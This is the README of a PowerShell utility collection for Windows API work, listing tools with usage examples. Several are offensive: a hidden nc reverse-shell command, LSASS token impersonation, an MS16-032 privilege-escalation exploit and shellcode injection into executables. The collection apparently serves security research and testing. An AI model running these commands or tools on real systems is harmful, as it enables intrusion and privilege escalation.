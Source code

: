 # PowerShell-Suite

There are great tools and resources online to accomplish most any task in PowerShell, sometimes however, there is a need to script together a util for a specific purpose or to bridge an ontological gap. This is a collection of PowerShell utilities I put together either for fun or because I had a narrow application in mind.

As such the mileage you get out of them may vary but feel free to post issues or fork & adapt!

## Windows API

Some resources to consult on Windows API access from PowerShell:
* FuzzySecurity: [Low-Level Windows API Access From PowerShell](http://www.fuzzysecurity.com/tutorials/24.html)
* Microsoft TechNet: [Use PowerShell to Interact with the Windows API](https://blogs.technet.microsoft.com/heyscriptingguy/2013/06/25/use-powershell-to-interact-with-the-windows-api-part-1/)
* Exploit Monday: [Accessing the Windows API in PowerShell via internal .NET methods and reflection](http://www.exploit-monday.com/2012/05/accessing-native-windows-api-in.html)
* Exploit Monday: [Deep Reflection - Defining Structs and Enums in PowerShell](http://www.exploit-monday.com/2012/07/structs-and-enums-using-reflection.html)

### Invoke-Runas

Functionally equivalent to Windows "runas.exe", using Advapi32::CreateProcessWithLogonW.

```
Start cmd with a local account.
C:\PS> Invoke-Runas -User SomeAccount -Password SomePass -Binary C:\Windows\System32\cmd.exe -LogonType 0x1

Start cmd with remote credentials. Equivalent to "/netonly" in runas.
C:\PS> Invoke-Runas -User SomeAccount -Password SomePass -Domain SomeDomain -Binary C:\Windows\System32\cmd.exe -LogonType 0x2
```

### Invoke-NetSessionEnum

Use Netapi32::NetSessionEnum to enumerate active sessions on domain joined machines.

```
Enumerate active sessions on "SomeHostName".
C:\PS> Invoke-NetSessionEnum -HostName SomeHostName
```

### Invoke-CreateProcess

Use Kernel32::CreateProcess to achieve fine-grained control over process creation from PowerShell.

```
Start calc with NONE/SW_SHOWNORMAL/STARTF_USESHOWWINDOW
C:\PS> Invoke-CreateProcess -Binary C:\Windows\System32\calc.exe -CreationFlags 0x0 -ShowWindow 0x1 -StartF 0x1

Start nc reverse shell with CREATE_NO_WINDOW/SW_HIDE/STARTF_USESHOWWINDOW
C:\PS> Invoke-CreateProcess -Binary C:\Some\Path\nc.exe -Args "-nv 127.0.0.1 9988 -e C:\Windows\System32\cmd.exe" -CreationFlags 0x8000000 -ShowWindow 0x0 -StartF 0x1
```

### Detect-Debug

Showcase a number of techniques to detect the presence of Kernel/User-Mode debuggers from PowerShell.

```
Sample below is x64 Win8, WinDbg attached to PowerShell.
C:\PS> Detect-Debug

[+] Detect Kernel-Mode Debugging
    [?] SystemKernelDebuggerInformation: False

[+] Detect User-Mode Debugging
    [?] CloseHandle Exception: Detected
    [?] IsDebuggerPresent: Detected
    [?] CheckRemoteDebuggerPresent: Detected
    [?] PEB!BeingDebugged: Detected
    [?] PEB!NtGlobalFlag: Detected
    [?] DebugSelf: Detected

```

## pwnd

### Conjure-LSASS

Use the SeDebugPrivilege to duplicate the LSASS access token and impersonate it in the calling thread. If SeDebugPrivilege is disabled the function will re-enable it.

```
Conjure LSASS into our midst! ;)
C:\PS> Conjure-LSASS
```

### Invoke-MS16-032

PowerShell implementation of MS16-032. The exploit targets all vulnerable operating systems that support PowerShell v2+. Credit for the discovery of the bug and the logic to exploit it go to James Forshaw (@tiraniddo).
    
Targets:

* Win7-Win10 & 2k8-2k12 <== 32/64 bit!
* Tested on x32 Win7, x64 Win8, x64 2k12R2

==> Not tested on Vista with PowerShell v1, let me know what happens if you are able to check this!

```
Sit back and watch the pwn!
C:\PS> Invoke-MS16-032
```

### Subvert-PE

Inject shellcode into a PE image while retaining the PE functionality.

For additional information, please refer to:

* FuzzySecurity: [Powershell PE Injection, this is not the Calc you are looking for!](http://www.fuzzysecurity.com/tutorials/20.html)

```
Analyse the PE header and hexdump the region of memory where shellcode would be injected.
C:\PS> Subvert-PE -Path C:\Path\To\PE.exe

Same as above but continue to inject shellcode and overwrite the binary.
C:\PS> Subvert-PE -Path C:\Path\To\PE.exe -Write
```

## Utility

### Calculate-Hash

PowerShell v2 compatible script to calculate file hashes. I quickly scripted this together because Get-FileHash is only available in v4+.

```
Get the SHA512 hash of "C:\Some\File.path".
C:\PS> Calculate-Hash -Path C:\Some\File.path -Algorithm SHA512
```

### Check-VTFile

Submit SHA256 hash of a file to Virus Total and retrieve the scan report if the hash is known. This requires you to get a, free, VirusTotal API key. Again, lot's of better projects out there for this but not PowerShell v2 compatible.

```
C:\PS> Check-VTFile -Path C:\Some\File.path
```